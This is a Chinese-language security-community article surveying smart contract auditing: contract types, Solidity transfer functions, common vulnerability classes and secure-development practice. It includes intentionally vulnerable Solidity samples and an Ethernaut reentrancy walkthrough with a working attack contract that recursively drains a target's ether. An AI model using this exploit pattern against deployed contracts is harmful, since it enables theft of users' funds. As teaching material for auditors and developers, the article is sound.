







# 智能合约安全审计技术概览 - 先知社区

智能合约安全审计技术概览

- - -

## 文章前言

智能合约是区块链技术的重要组成部分，它能够自动执行代码并将结果写入区块链以实现各种业务场景，然而由于智能合约本质上是代码，因此也存在着相应的安全风险，如果智能合约存在漏洞，黑客就有可能利用这些漏洞进行攻击，导致资产损失甚至系统崩溃，因此对智能合约进行安全审计是至关重要的，本文将概述智能合约安全审计技术的相关知识为读者带来更深入的了解

## 智能合约

智能合约是一种基于区块链技术的自动化合约，它可以在没有第三方干预的情况下自动执行合约条款并将结果记录在区块链上。智能合约可以被编程，以便在满足特定条件时触发执行，这使其成为一种透明、安全和高效的解决方案，可以用于各种场景，例如：数字货币交易、房地产交易、保险索赔等。智能合约的执行结果是不可逆的，这意味着一旦合约被执行它就无法被修改或撤回，智能合约的编写需要一定的技术知识和经验，但它可以帮助人们实现更加公正、透明和高效的交易

## 合约应用

智能合约常见的应用主要包括以下几种：  
A、代币合约：  
智能合约中的代币合约主要有两种类型——ERC-20 和 ERC-721

-   ERC-20 代币合约是以太坊上最常见的代币合约类型，它定义了一组标准接口使得不同的代币合约可以互相兼容和交互，ERC-20 代币合约中包含了代币的名称、符号、总量、小数位数等基本信息以及代币的转账、余额查询、授权等基本操作。通过使用 ERC-20 代币合约开发者可以轻松创建自己的代币并在以太坊上进行交易和转账
-   ERC-721 代币合约是一种非同质化代币合约，也被称为"加密收藏品"或"加密艺术品"。与 ERC-20 代币合约不同的是 ERC-721 代币合约中的每个代币都具有唯一的标识符和元数据，因此可以用来表示独一无二的数字资产，例如：虚拟房地产、游戏道具、艺术品等。ERC-721 代币合约中包含了代币的名称、符号、元数据等基本信息，以及代币的授权、转移等基本操作，通过使用 ERC-721 代币合约，开发者可以创建自己的非同质化代币并在以太坊上进行交易和拍卖

B、DEFI 合约  
智能合约中的 DeFi 合约主要有以下几种类型：

-   借贷合约：这种合约允许用户在区块链上进行借贷操作，其中包括借入和借出数字资产，借贷合约通常使用抵押品作为担保以确保借款人能够按时归还借款
-   流动性挖矿合约：这种合约允许用户将数字资产提供给去中心化交易所以便其他用户可以在该交易所上进行交易，作为回报，提供流动性的用户会获得一定的奖励
-   去中心化交易所合约：这种合约允许用户在区块链上进行交易，而不需要中心化的交易所作为中介。这些合约通常使用智能合约来处理交易以确保交易的透明性和安全性
-   合成资产合约：这种合约允许用户在区块链上创建和交易合成资产，这些资产是由其他数字资产组成的。这些合约通常使用抵押品作为担保，以确保交易的安全性和稳定性

C、稳定币合约

-   智能合约中的稳定币合约主要有三种类型：抵押型稳定币、算法型稳定币和混合型稳定币
-   抵押型稳定币：这种稳定币的发行是基于抵押物的价值，通常是加密货币，例如：比特币或以太坊，当发行稳定币时，用户需要将抵押物存入智能合约，然后可以获得相应数量的稳定币，如果抵押物价值下降，用户需要再次存入更多抵押物或者赎回部分稳定币以保持抵押率，抵押型稳定币的例子包括 MakerDAO 的 DAI 和 BitShares 的 BitUSD
-   算法型稳定币：这种稳定币的发行是基于算法，通常是根据供求关系动态调整发行量。例如：当稳定币价格高于 1 美元时，智能合约可以增加发行量，反之则减少发行量。算法型稳定币的例子包括基于弹性供应的 Ampleforth 和基于各种资产池的 Curve
-   混合型稳定币：这种稳定币结合了抵押型和算法型稳定币的特点，它们可以使用抵押物作为基础来发行稳定币，同时也可以使用算法来动态调整发行量，混合型稳定币的例子包括基于抵押物和算法的 Havven 和基于抵押物和投票的 Synthetix

D、游戏类合约  
智能合约中的常见的游戏合约可以分为以下几种类型：

-   竞技合约：这种合约允许用户在合约中进行竞技游戏，例如：棋牌游戏、电子竞技等。用户可以在合约中进行游戏，合约根据游戏结果自动结算奖励或罚款
-   投注类合约：这种合约允许用户在合约规定的时间内进行投注，例如：赛马、体育比赛、彩票等，投注结果是由智能合约自动计算和分配的，确保了公平和透明性
-   收藏品合约：这种合约允许用户在合约中购买、交易收藏品，例如：数字化艺术品、虚拟宠物等。合约会自动记录收藏品的所有权和交易记录，保证交易的透明性和可追溯性
-   角色扮演类合约：这种合约需要玩家在智能合约中扮演一个虚拟角色，该类合约通过不同的游戏规则和机制来激励玩家积极参与游戏，例如：奖励机制、排行榜竞赛等，这些机制可以提高游戏的趣味性和竞争性，吸引更多的玩家参与

下面是一个简单的贷款合约代码，该合约实现了一个简单的贷款合同，包括借款人地址、贷款人地址、贷款金额、利率、贷款期限、开始日期、结束日期和贷款是否被批准的变量，它还包括两个函数:approveLoan() 和 repayLoan()，其中 approveLoan() 用于批准贷款，只有贷款人可以调用，repayLoan() 用于还款，只有借款人可以调用，当然正式场景下借贷类型的智能合约业务功能会更加繁多、功能设计会更加复杂，例如：利息计算、资产清算等等

```plain
pragma solidity ^0.8.0;

contract Loan {
    address public borrower; // 借款人的地址
    address public lender; // 贷款人的地址
    uint public loanAmount; // 贷款金额
    uint public interestRate; // 利率
    uint public loanDuration; // 贷款期限
    uint public startDate; // 贷款开始日期
    uint public endDate; // 贷款结束日期
    bool public loanApproved; // 判断贷款是否已经批准

    constructor(
        address _borrower,
        address _lender,
        uint _loanAmount,
        uint _interestRate,
        uint _loanDuration
    ) {
        borrower = _borrower;
        lender = _lender;
        loanAmount = _loanAmount;
        interestRate = _interestRate;
        loanDuration = _loanDuration;
        startDate = block.timestamp;
        endDate = startDate + (loanDuration * 1 days);
        loanApproved = false;
    }

    function approveLoan() public {
        require(msg.sender == lender, "Only lender can approve loan.");       
        require(!loanApproved, "Loan has already been approved.");
        loanApproved = true;
    }

    function repayLoan() public payable {
        require(msg.sender == borrower, "Only borrower can repay loan.");
        require(loanApproved, "Loan has not been approved yet.");
        require(block.timestamp <= endDate, "Loan has already expired.");
        require(msg.value == loanAmount, "Incorrect repayment amount.");
        payable(lender).transfer(msg.value);
    }
    ......
}
```

## 安全审计

智能合约的审计维度主要包含编码规范、编码设计、业务设计三个维度，下面逐一进行详细介绍：

### 基础安全

智能合约支持 Solidity、Vyper、C++、Python、Rust、Move 等编程语言进行合约开发，每种编程语言都有各自的编码规范，在开发过程中应该严格遵循开发语言编码规范来规避业务功能设计缺陷等安全问题，下面是一些常见的基础安全项检查：

#### 编译器版本选型

智能合约编译器是将高级编程语言转换为区块链可执行代码的工具，由于智能合约是在区块链上执行的，因此编译器的安全性至关重要，如果编译器存在漏洞，那么可能会导致存在缺陷的代码被部署在区块链上，从而导致严重的后果，因此在智能合约开发之初就应该确定合约开发中所使用的编译器版本，不能一个使用最新的编译器版本，一个使用上古时代的编译器版本，一个是可能会因为编译器版本跨幅度较大带来的同一编码不同解析的问题，另一个是编译器过旧导致的历史安全漏洞风险，这里以 solidity 编译器为例给出一个详细的关于编译器各个版本的安全问题列表：  
[https://github.com/ethereum/solidity/blob/develop/docs/bugs\_by\_version.json](https://github.com/ethereum/solidity/blob/develop/docs/bugs_by_version.json)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240125161349-ab7c0b90-bb59-1.png)

#### 函数返回值校验

Solidity 中的

<address>.transfer()、<address>.send()、<address>.gas().call.vale()() 函数都可以用于向某一地址发送 ether，其差别如下：

a、transfer 转账  
transfer 函数是最常用的转账函数，它的作用是将合约中的以太币或代币转移到指定的地址，如果转账失败该函数将抛出异常并回滚所有更改，其语法如下：

```plain
function transfer(address payable recipient, uint256 amount) public returns (bool)
```

其中 recipient 是接收方的地址，amount 是要转移的金额，函数返回值为 bool 类型，表示转账是否成功，需要注意的是 transfer 函数的 gas 消耗为 2300 units 且这个消耗是固定的，无论转移的金额是多少都不会变更，如果转移的金额超过了合约的余额，那么转账会失败并且所有更改都将被回滚，以下是一个示例代码

```plain
pragma solidity ^0.8.0;

contract TransferExample {
    function transferEther(address payable recipient, uint256 amount) public {
        require(address(this).balance >= amount, "Insufficient balance")
        recipient.transfer(amount);
    }
}
```

b、send 函数转账  
send 函数是一种更低级的转账函数，它与 transfer 函数不同，send 函数不会抛出异常，而是返回一个布尔值来表示转账是否成功，如果转账失败，函数将返回 false 并且不会回滚任何更改，其语法如下：

```plain
function send(address payable recipient, uint256 amount) public returns (bool)
```

send 函数与 transfer 函数类似，recipient 是接收方的地址，amount 是要转移的金额，函数返回值为 bool 类型，表示转账是否成功，send 函数的 gas 消耗为 2300 units，这个消耗也是固定的，无论转移的金额是多少，如果转移的金额超过了合约的余额，转账会失败，但是所有更改不会被回滚，以下是一个示例代码：

```plain
pragma solidity ^0.8.0;

contract SendExample {
    function sendEther(address payable recipient, uint256 amount) public returns (bool) {
        require(address(this).balance >= amount, "Insufficient balance")
        return recipient.send(amount);
    }
}
```

c、call 函数转账  
call 函数是最灵活的转账函数，它可以用于调用任何合约函数并且可以传递任何数量的以太币或代币，如果调用失败，该函数将返回 false 并且不会回滚任何更改，其语法如下

```plain
function call(address payable recipient, uint256 amount, bytes memory data) public returns (bool, bytes memory)
```

其中 recipient 是接收方的地址，amount 是要转移的金额，data 是要调用的函数的 ABI 编码，函数返回值为一个元组，其中第一个元素表示调用是否成功，第二个元素是一个 bytes 类型的返回值，call 函数的 gas 消耗取决于调用的函数和传递的参数，如果调用的函数需要执行复杂的计算或存储操作，gas 消耗会相应增加，以下是一个示例代码：

```plain
pragma solidity ^0.8.0;

contract CallExample {
    function callContract(address payable recipient, uint256 amount, bytes memory data) public returns (bool, bytes memory) {
        require(address(this).balance >= amount, "Insufficient balance"        return recipient.call{value: amount}(data);
    }
}
```

综上所述，transfer()、send()、call.value() 等转账函数在向某一地址发送 Ether 时的主要区别如下：

-   transfer：发送失败时会 throw，并且进行状态回滚，只会传递 2300gas 供调用，防止重入攻击
-   send：发送失败时会返回 false，不会进行状态回滚，只会传递 2300gas 供调用，防止重入攻击
-   call.value：发送失败时会返回 false，传递所有可用 gas 进行调用 (可通过传入 gas\_value 参数进行限制)，不能有效防止重入攻击

这里的"函数返回值校验"指的就是由于没有检查 send 和 call.value 转币函数的返回值从而导致合约会继续执行后续代码，还可能由于 Ether 发送失败而导致意外的结果，例如下面是一个通过 withdraw 函数进行提现的合约，其中使用了 send 函数来进行转账操作，但是由于 send 函数在转账失败时并不会抛出异常，也不会阻止函数继续执行，因此如果用户在进行体现时如果填入了一个错误的地址，那么将会导致用户当前所持资产数量减少，而接受代币的地址所持资产数量不变，白白损失资产

```plain
function withdraw(uint amount) public {
    require(balance[msg.sender] >= amount);
    msg.sender.send(amount); // 存在安全风险
    balance[msg.sender] -= amount;
}
```

#### 构造函数的书写

智能合约初期合约名称和构造函数名称一致，如果构造函数名称和合约名称不一致将导致其变为一个 public 的函数被任意用户调用，例如：大小写不相同、构造函数后面加 s 等，下面是一个简单的示例，如果不注意看你会很难发现构造函数名称和合约名称不同，这里的合约部署之后原先设计的构造函数"MyTokens"将变更为一个公共函数，任意用户可以通过调用该函数对合约进行多次初始化操作

```plain
pragma solidity ^0.4.0;

contract MyToken {
    string public name;
    string public symbol;
    uint8 public decimals;
    uint256 public totalSupply;

    mapping (address => uint256) public balanceOf;

    event Transfer(address indexed from, address indexed to, uint256 value);

    function MyTokens(uint256 initialSupply, string memory tokenName, string memory tokenSymbol, uint8 decimalUnits) {
        balanceOf[msg.sender] = initialSupply;
        totalSupply = initialSupply;
        name = tokenName;
        symbol = tokenSymbol;
        decimals = decimalUnits;
    }

    function transfer(address _to, uint256 _value) public returns (bool success) {
        require(balanceOf[msg.sender] >= _value);
        require(balanceOf[_to] + _value >= balanceOf[_to]);
        balanceOf[msg.sender] -= _value;
        balanceOf[_to] += _value;
        emit Transfer(msg.sender, _to, _value);
        return true;
    }
}
```

#### 关键事件的记录

智能合约中的 event 是合约中定义的事件，用于记录合约中的重要操作和状态变化，定义 event 的格式如下：

```plain
event EventName(arg1Type arg1, arg2Type arg2, ...);
```

其中 EventName 为事件名称，arg1Type、arg2Type 等为事件参数的类型，事件参数可以是任何 Solidity 支持的数据类型，包括基本数据类型、结构体、枚举等，例如：定义一个名为"Deposit"的事件，用于记录用户的存款操作：

```plain
event Deposit(address indexed user, uint256 amount);
```

智能合约中的 emit 是合约中触发事件的关键字，用于在合约中调用事件并传递相应的参数，emit 的格式如下：

```plain
emit EventName(arg1, arg2, ...);
```

其中 EventName 为事件名称，arg1、arg2 等为事件参数的值，例如：在合约中调用"Deposit"事件并传递相应的参数

```plain
function deposit() public payable {
    emit Deposit(msg.sender, msg.value);
    // 进行存款操作
}
```

在上述代码中，当用户进行存款操作时会调用"Deposit"事件并将用户地址和存款金额作为参数传递给该事件，event 和 emit 在智能合约的开发中具有非常重要的作用，它们可以用于记录合约中的重要操作和状态变化，帮助开发者实现合约的逻辑和功能，例如：在 ERC20 代币合约中就可以使用 event 和 emit 来记录代币的转移操作和余额变化情况，如果出现资产被盗等情况可以快速根据记录进行攻击分析

#### 地址非零的检查

在智能合约中地址非零检查通常是指检查一个地址是否为空地址 (即 0x0000000000000000000000000000000000000000)，因为空地址在以太坊网络中无法被识别也无法接收或发送任何代币和以太币，以下是一个示例代码，用于在 Solidity 中检查地址是否为空地址

```plain
function checkAddress(address _addr) public view returns(bool) {
    return (_addr != address(0));
}
```

在这个示例中我们定义了一个名为 checkAddress 的函数，该函数接受一个地址类型的参数并返回一个布尔值，函数使用比较运算符 (!=) 来检查传递的地址是否等于零地址，如果地址不等于零地址，则返回 true，否则返回 false，我们也可以在其他函数中调用 checkAddress 函数来确保传递的地址不是零地址，例如

```plain
function transfer(address _to, uint _amount) public {
    require(checkAddress(_to));
    //执行转账操作
}
```

通过这种方式在智能合约中进行地址非零检查可以帮助我们避免因为传递了无效的地址而导致的错误和安全问题

### 编码设计

DASP Top 10 归纳了智能合约常见的安全漏洞，智能合约开发人员在开发合约之前可以先研习智能合约安全漏洞以规避在开发合约时出现安全漏洞，合约审计人员可根据 DASP Top 10 对智能合约已有安全漏洞进行快速审计检查 (下面的有做进一步的补充和扩展)：

-   重入攻击
-   整形溢出
-   访问控制
-   拒绝服务
-   短地址攻击
-   假充值风险
-   变量覆盖风险
-   不一致性风险
-   合约检测绕过
-   算术精度缺失
-   冻结账户绕过
-   条件竞争风险
-   时间篡改攻击
-   随机数可预测
-   提前交易攻击
-   合约后门漏洞
-   未知攻击手法
-   ......

由于数量过多这里不进行逐一介绍，仅以 Ethernaut 闯关游戏中的一个重入案例为例作为演示说明，合约代码如下：

```plain
pragma solidity ^0.4.18;

import 'openzeppelin-solidity/contracts/math/SafeMath.sol';

contract Reentrance {

  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}
```

在这里我们重点来看 withdraw 函数，我们可以看到它接收了一个\_amount 参数，将其与发送者的 balance 进行比较，不超过发送者的 balance 就将这些\_amount 发送给 sender，同时我们注意到这里它用来发送 ether 的函数是 call.value，发送完成后，它才在下面更新了 sender 的 balances，这里就是可重入攻击的关键所在了，因为该函数在发送 ether 后才更新余额，所以我们可以想办法让它卡在 call.value 这里不断给我们发送 ether，同样利用的是我们熟悉的 fallback 函数来实现，当然这里还有另外一个关键的地方——call.value 函数特性，当我们使用 call.value() 来调用代码时，执行的代码会被赋予账户所有可用的 gas，这样就能保证我们的 fallback 函数能被顺利执行，对应的如果我们使用 transfer 和 send 函数来发送时，代码可用的 gas 仅有 2300 而已，这点 gas 可能仅仅只够捕获一个 event，所以也将无法进行可重入攻击，因为 send 本来就是 transfer 的底层实现，所以他两性质也差不多  
根据上面的简易分析，我们可以编写一下 EXP 代码：

```plain
pragma solidity ^0.4.18;

contract Reentrance {

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to]+msg.value;
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}

contract ReentrancePoc {

    Reentrance reInstance;

    function getEther() public {
        msg.sender.transfer(address(this).balance);
    }

    function ReentrancePoc(address _addr) public{
        reInstance = Reentrance(_addr);
    }
    function callDonate() public payable{
        reInstance.donate.value(msg.value)(this);
    }

    function attack() public {
        reInstance.withdraw(1 ether);
    }

  function() public payable {
      if(address(reInstance).balance >= 1 ether){
        reInstance.withdraw(1 ether);
      }
  }
}
```

下面进行攻击操作，首先点击"Get new Instance"来获取一个实例：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125161812-47bddaf6-bb5a-1.png)  
之后获取 instance 合约的地址  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240125161821-4d51ffb0-bb5a-1.png)  
之后在 remix 中部署攻击合约  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240125161832-53f7f824-bb5a-1.png)  
我们需要在受攻击的合约里给我们的攻击合约地址增加一些 balance 以完成 withdraw 第一步的检查：

```plain
contract.donate.sendTransaction("0xeE59e9DC270A52477d414f0613dAfa678Def4b02",{value: toWei(1)})
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125161902-661bd494-bb5a-1.png)  
这样就成功给我们的攻击合约的 balance 增加了 1 ether，这里的 sendTransaction 跟 web3 标准下的用法是一样的，这时你再使用 getbalance 去看合约拥有的 eth 就会发现变成了 2，说明它本来上面存了 1 个 eth，然后我们返回攻击合约运行 attack 函数就可以完成攻击了： 
[](https://xzfile.aliyuncs.com/media/upload/picture/20240125161919-6fd2b0d4-bb5a-1.png)  
查看 balance，在交易前后的变化：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240125161933-7819642c-bb5a-1.png)

### 业务安全

业务逻辑设计是智能合约的核心所在，开发人员在使用编程语言开发合约业务逻辑功能时应当充分考虑对应业务的各个方面，不同智能合约有不同的业务需求，不同的业务需求对应不同的业务功能设计，业务设计作为智能合约中具体的业务功能的落地实现，需要从多维度进行考量各种可能出现的情况，这里不做深究，仅简单列举几项：

-   参数合法性检查 (类型、非空)
-   函数的权限设计 (调用者权限)
-   函数的执行条件 (各类边界条件)
-   函数业务逻辑流程 (分支判断、循环逻辑)
-   ......

## 安全开发

### 语言选型

智能合约开发语言选择需要考虑以下几个方面：

-   平台支持：不同的区块链平台支持的智能合约开发语言可能不同，需要选择平台支持的语言
-   开发难度：不同的语言有不同的开发难度，需要考虑开发人员的技能水平和团队的实际情况
-   安全性：智能合约需要保证安全性，选择具有良好安全保障的语言可以提高安全性
-   生态支持：选择有完善的生态支持的语言可以提高开发效率和稳定性
-   ......

目前比较常用的智能合约开发语言有 Solidity、Vyper、Rust、C++、Move 等，用户在开发智能合约时需要根据实际情况选择合适的语言

### 版本选择

智能合约编译器是一种将源代码转换为可在区块链上执行的字节码的程序，智能合约编译器通常与区块链平台集成，例如：以太坊、EOS 等。智能合约编译器可用于编译各种编程语言，例如:Solidity、C++、Python 等。在编译过程中编译器会检查代码的语法和语义并生成可在区块链上执行的字节码，智能合约编译器的主要作用是提高智能合约的安全性和可靠性，从而使其更适合于金融、医疗、物流等领域的应用，在进行智能合约开发时我们也需要按需选择智能合约编译器版本，主要考虑的点有以下几个方面 (以 Solidity 为例)：

-   项目需求：不同版本的 solidity 编译器支持不同的语言特性和功能，根据项目需求选择合适的编译器版本可以提高智能合约的效率和安全性
-   安全性：新版本的 solidity 编译器通常会修复旧版本的漏洞和安全问题，因此在安全性方面更有保障，但是新版本的编译器可能会引入新的问题，因此需要充分测试和评估
-   兼容性：在选择 solidity 编译器版本时，需要考虑与其他智能合约和工具的兼容性，如果项目中使用了其他智能合约或工具，需要确保 solidity 编译器版本与它们兼容
-   社区支持：Solidity 编译器是一个开源项目，社区的支持和贡献对于其发展和维护非常重要，因此选择广泛使用和受到社区支持的编译器版本可以获得更好的技术支持

### 逻辑设计

智能合约开发之前需要研发人员充分解读并了解智能合约开发的需求说明文档，并对文档中涉及的各个业务功能模块进行深度分析，例如：什么情况下可以铸币、什么情况下可以销毁代币、什么条件下可以进行提现、什么条件下可以调用授权转账函数进行转账、质押逻辑如何设计、什么时候开始游戏、什么时候进行分红、分红比例如何设计、那些人员可以分红、分红的层级如何设计、邀请奖励如何设计等等，不同类型的智能合约有不同的业务需求和不同的业务场景，具体按需进行设计即可，在设计时多维度考量各类可能性、各类边界、各类安全问题即可

### 功能测试

智能合约业务功能测试的着重点在于合约中各个业务逻辑设计的正确性和可靠性，测试的方法包括黑盒测试和白盒测试。黑盒测试是指测试人员不知道智能合约的实现细节，只测试其功能是否符合预期，白盒测试则是指测试人员了解智能合约的实现细节，测试其逻辑是否正确、代码是否规范、是否存在漏洞等，在测试时需要保障测试用例足够的多，场景覆盖面充分以及合约代码的覆盖率

### 安全审计

智能合约在正式上线之前建议先寻找可靠的、可信任的第三方区块链智能合约安全审计公司对合约的安全性进行安全审计评估，在初次审计完成后需要对合约中存在的安全漏洞进行修复调整，同时在修复后还需要请安全审计公司再次进行安全审计来检查漏洞修复是否有效可行，同时也建议项目方在进行安全审计的时候可以邀请 2-3 家安全审计公司进行审计来实现对合约安全的多重安全保障

## 文末小结

智能合约安全审计是区块链应用开发过程中不可或缺的一环，其目的是发现和修复合约中可能存在的漏洞和安全隐患，从而保障区块链应用的安全和稳定性。目前智能合约安全审计技术已经取得了一定的进展，但仍需要不断地进行研究和探索以应对日益复杂的区块链安全威胁，相信在未来，随着技术的不断进步和完善，智能合约安全审计将成为区块链应用开发的必要步骤，为区块链技术的发展提供重要的保障

</address></address></address>
